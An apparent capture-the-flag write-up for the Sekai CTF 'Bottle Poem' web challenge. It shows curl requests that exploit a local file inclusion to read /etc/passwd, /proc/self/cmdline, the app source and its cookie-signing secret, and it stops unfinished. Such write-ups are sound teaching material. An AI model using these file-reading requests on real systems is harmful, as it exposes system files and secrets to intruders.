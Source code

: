 ```yaml
---
title: Sekai CTF - Bottle Poem
layout: post
date: 2022-10-12 20:23:00
tags:
    - ctf, sekaiCTF
---
```


##### Problem Statement

Come and read poems in the bottle.

No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.

Author: bwjy

[Webpage: http://bottle-poem.ctf.sekai.team](http://bottle-poem.ctf.sekai.team)

---

In this challenge we are greeted with 3 links, as we click on them we notice the URL changes. Respectively ~

```
http://bottle-poem.ctf.sekai.team/show?id=spring.txt
http://bottle-poem.ctf.sekai.team/show?id=Auguries_of_Innocence.txt
http://bottle-poem.ctf.sekai.team/show?id=The_tiger.txt
```

Something fishy about this is that it indicates quite possibly the filepath?
Let's try to print something out

We can send a get request to the server using the terminal with `curl`
`curl http://bottle-poem.ctf.sekai.team/show?id=/etc/passwd`
We use `/etc/passwd` since most servers are on linux, and this file will always exist.

Sure enough, it's a [Local File Inclusion](https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

This proves we can read the files on this server. Now the question is, what file do we need to read to get the flag?
https://www.tecmint.com/exploring-proc-file-system-in-linux/

`/proc` directory is a psuedo directory, but it exists because everything is a file on linux.

`/proc/self` is When a process accesses this magic symbolic link, it
resolves to the process's own /proc/[pid] directory.

`/proc/[pid]/cmdline`
This read-only file holds the complete command line for
the process, unless the process is a zombie. In the
latter case, there is nothing in this file: that is, a
read on this file will return 0 characters. The command-
line arguments appear in this file as a set of strings
separated by null bytes ('\0'), with a further null byte
after the last string.

Let's try reading this
`curl http://bottle-poem.ctf.sekai.team/show\?id\=/proc/self/cmdline -o result.txt`
Here we are outputting the result into `result.txt` checking this file we see
`python3-u/app/app.py`

Now we have an entry point to work with! Let's open it up

`curl http://bottle-poem.ctf.sekai.team/show\?id\=/app/app.py -o app.py`

```py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

Key thing to note here are the routes! The poems are handled under `/show` but there's also `/sign`. Visiting this on the webpages brings this
![image](https://files.catbox.moe/8ylti8.png)

Looking closely at the imports we can infer the next filepath to explore.

`curl http://bottle-poem.ctf.sekai.team/show\?id\=/app/config/secret.py`
`sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"`
Okay seems like we are getting somewhere. However that's where my knowledge depths take a stop. I'll update this blog later when I make some progress
